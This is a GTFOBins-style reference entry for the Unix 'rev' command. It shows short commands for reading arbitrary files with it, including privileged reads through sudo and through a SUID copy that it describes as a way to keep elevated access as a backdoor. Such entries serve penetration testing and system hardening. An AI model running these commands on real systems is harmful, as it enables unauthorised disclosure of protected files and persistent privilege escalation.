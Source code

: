 # GTFOBin: rev

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
rev $LFILE | rev
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rev) .

LFILE=file_to_read
./rev $LFILE | rev
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo rev $LFILE | rev
```